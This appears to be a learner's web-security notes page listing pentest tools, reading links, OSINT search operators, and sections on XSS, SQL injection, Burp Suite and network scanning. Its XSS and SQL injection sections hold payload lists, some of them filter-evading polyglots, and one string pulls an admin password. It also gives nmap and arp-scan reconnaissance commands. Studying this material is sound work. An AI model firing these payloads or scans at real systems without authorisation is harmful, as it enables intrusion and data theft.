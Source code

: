 # Security

## Tools

[Base64 Decode](https://www.base64decode.org/) - Decode or encode base64.      
[Wappalyze](https://www.wappalyzer.com/) - Find out the technology stack of a website.  
[SecLists](https://github.com/danielmiessler/SecLists) - A collection of lists used during security assessments.     
[Sublist3r](https://github.com/aboul3la/Sublist3r) - Collects and gathers subdomains for a target domain.    
[fuff](https://github.com/ffuf/ffuf) - Web fuzzer.    
[Wfuzz](https://github.com/xmendez/wfuzz) - Web fuzzer.    
[XSS Hunter](https://github.com/mandatoryprogrammer/xsshunter) - Performs Blind XSS attacks and captures cookies, URLs, page contents.   
[XSStrike](https://github.com/s0md3v/XSStrike) - A Cross Site Scripting detection suite.      
[Burp Suite](https://portswigger.net/burp) - A tool for performing security testing of web applications.       
[FoxyProxy](https://addons.mozilla.org/en-GB/firefox/addon/foxyproxy-basic/) - Proxy management browser extension.    
[CloudSploit](https://github.com/aquasecurity/cloudsploit) - Detects security risks in cloud infrastructure accounts.     
[DNSDumpster](https://dnsdumpster.com/) - A research tool that can discover hosts related to a domain.     
[Nmap](https://nmap.org/) - Discovers hosts and services on a computer network.     
[arp-scan](https://github.com/royhills/arp-scan) - Uses the ARP protocol to discover and fingerprint IP hosts on the local network.    


## Reading

[OWASP Top 10](https://owasp.org/Top10/)     
[OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)      
[Postgres SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/postgres-sql-injection-cheat-sheet)    
[Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)     
[Bug Bounty Cheatsheet](https://m0chan.github.io/2019/12/17/Bug-Bounty-Cheetsheet.html)     
[Command Injection Payload List](https://github.com/payloadbox/command-injection-payload-list)     

## Videos

[A Starters Guide to Pentesting with OWASP](https://www.youtube.com/watch?v=AO_sqXb-gKE)     

## Frameworks

A set of guidelines and best practices to help organizations build and improve their cybersecurity. Frameworks are a blueprint for managing risk and reducing vulnerabilities.

[OWASP](https://owasp.org/)    
[NCSC CAF](https://www.ncsc.gov.uk/collection/caf/caf-principles-and-guidance)    
[NIST](https://www.nist.gov/cyberframework)    

## Notes

### Manual Discovery

- Page Source
  - Comments (<!-- User, password -->)
  - Links (/secret_page)
  - Directories (/assets)
  - Files (./info.zip)
- /robots.txt
- /sitemap.xml
- Default favicon of framework [https://wiki.owasp.org/index.php/OWASP_favicon_database](https://wiki.owasp.org/index.php/OWASP_favicon_database)
-  HTTP headers (versions, web server software, programming language)
- Check for default credentials

### OSINT (Open-Source Intelligence)

- [Google Hacking](https://en.wikipedia.org/wiki/Google_hacking)


| Filter  | Example | 
| ------------- | ------------- | 
| site  | site:example.com  | 
| filetype  | filetype:csv  | 
| inurl  | inurl:admin  | 
| intitle  | intitle:admin  | 

**Example:** "-site:www.example.com site:*.example.com" would only contain results leading to the domain name example.com such as www.staff.example.com but exclude any links to www.example.com.

- [Wappalyzer](https://www.wappalyzer.com/)
- [Wayback Machine](https://archive.org/web/)
- GitHub search (Company, website names for areas and passwords)
- S3 bucket permissions ((http(s)://**{name}.**[**s3.amazonaws.com**](http://s3.amazonaws.com/)) **{name}**-assets, **{name}**-www, **{name}**-public, **{name}**-private)    



### Cross-site Scripting (XSS)

[OWASP XSS Overview](https://owasp.org/www-community/attacks/xss/)      
[THM XSS Room](https://tryhackme.com/room/xssgi)

```
<script>alert('XSS');</script>    
"><script>alert('XSS');</script>    
</textarea><script>alert('XSS');</script>    
';alert('XSS');//    
<sscriptcript>alert('XSS');</sscriptcript>    
/images/cat.jpg" onload="alert('XSS');    
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e    
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e    
<iframe src=\"javascript:alert(XSS)\">    
<iframe src="javascript:alert(`XSS`)">    
```

### SQL Injection

[OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)     
[W3Schools SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)      
[THM SQL Injection](https://tryhackme.com/room/sqlinjectionlm)      
[OWASP Testing PostgreSQL](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05.4-Testing_PostgreSQL)

- Inband: data is extracted using the same channel that is used to inject the SQL code. This is the most straightforward kind of attack, in which the retrieved data is presented directly in the application web page.
- Out-of-band: data is retrieved using a different channel (e.g., an email with the results of the query is generated and sent to the tester).
- Inferential or Blind: there is no actual transfer of data, but the tester is able to reconstruct the information by sending particular requests and observing the resulting behavior of the DB Server.

```
;
'
' OR 1=1;--
1 UNION SELECT 1,2
%00' UNION SELECT password FROM Users WHERE username='admin'--
%27%20UNION%20SELECT%20password%20FROM%20Users%20WHERE%20name%3D%27admin%27--
UNION ALL SELECT user,NULL,NULL--
```

### Burp Suite

[THM Burp Suite Basics](https://tryhackme.com/room/burpsuitebasics)         

Set up browser proxy and certificate. Turn intercept on and in proxy options configure rules - "Or Request Was Intercepted", "And URL Is in target scope". Send to repeater or send to intruder.

- Browser hanging - Turn off Intercept.      
- Can't intercept - Update Scope.

### Network

Return all the IPv4 addresses: ```nslookup -type=A example.com 0.0.0.0```     
Email servers and configurations for a particular domain: ```nslookup -type=MX example.com```     

```
whois example.com
nslookup example.com     
nmap -sL -n 0.0.0.0/0.     
nmap -PR -sn 0.0.0.0/24     
nmap -PE -sn 0.0.0.0/24     
nmap -PP -sn 0.0.0.0/24     
nmap -PM -sn 0.0.0.0/24.    
nmap -PS -sn 0.0.0.0/24      
sudo nmap -PA -sn MACHINE_IP/24
arp-scan -l     

```



